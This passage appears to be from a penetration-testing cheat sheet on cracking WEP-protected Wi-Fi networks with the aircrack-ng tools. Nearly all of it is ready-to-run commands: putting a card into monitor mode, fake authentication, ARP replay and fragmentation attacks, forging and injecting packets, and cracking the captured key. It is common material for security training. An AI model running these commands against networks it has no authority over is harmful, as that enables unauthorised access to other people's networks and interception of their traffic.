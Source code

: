 ```powershell
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w clearcap mon0 # dump traffic

# fake authentication for a more reliable attack
aireplay-ng -1 0 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0

# interactive replay attack (min arp 68, max arp 86)
aireplay-ng -2 -b $AP_MAC -d FF:FF:FF:FF:FF -f 1 -m 68 -n 86 mon0 # interactive - natural selection of a packet
aireplay-ng -2 -b $AP_MAC -t 1 -c FF:FF:FF:FF:FF:FF -p 0841 mon0  # interactive - force create a packet
# Packet selection (ARP packets met the characteristics): 
# - APs will always repeat packets destined to the broadcast
# - The packet will have the ToDS (To Distribution System) bit set to 1
# answer "y" multiple times

# cracking require ~> 250000 IVs
aircrack-ng -0 -z -n 64 clientwep-01.cap
    * -z: PTW attack
    * -n: number of bits in the WEP key

# backup file with an ARP packet
aireplay-ng -2 -r replay.cap mon0
```

### Cracking WEP without a Client

* Chopchop & Fragmentation attack => PRGA, generate more packets with weak IVs
* Need an AP configured with open system authentication

Prerequisite:

```powershell
# put into monitor mode on our desired channel
airmon-ng start wlan0 3 # only a particular channel : 3
airodump-ng -c 3 --bssid $AP_MAC -w wepcrack mon0 # see no client

# fake authentication attack with association timing (every 60s try to reassociate)
aireplay-ng -1 60 -e $AP_SSID -b $AP_MAC -h $ATTACKER_MAC mon0 # should see a client in airodump
# -1 6000 to avoid a time out.
```

#### Fragmentation attack

> Goal: 1500 bytes of PRGA Atheros does not generate the correct packets unless the wireless card is set to the MAC address you are spoofing.

```powershell
# attacker mac must be associated (fake auth)
# Press "Y"
aireplay-ng -5 -b $AP_MAC -h $ATTACKER_MAC mon0

# use our PRGA from the fragmentation attack to generate an ARP request
# SRC_ADDR: 192.168.1.100 
# DST_ADDR: 192.168.1.255, should not exist (broadcast address)
packetforge-ng -0 -a $AP_MAC -h $ATTACKER_MAC -l $SRC_ADDR -k $DST_ADDR -y frag.xor -w inject.cap
# -k: the destination IP i.e. in ARP, this is "Who has this IP"
# -l: the source IP i.e. in ARP, this is "Tell this IP"

# check the packet
tcpdump -n -vvv -e -s0 -r inject.cap

# inject our crafted packet
aireplay-ng -2 -r inject.cap mon0

# crack the WEP key
```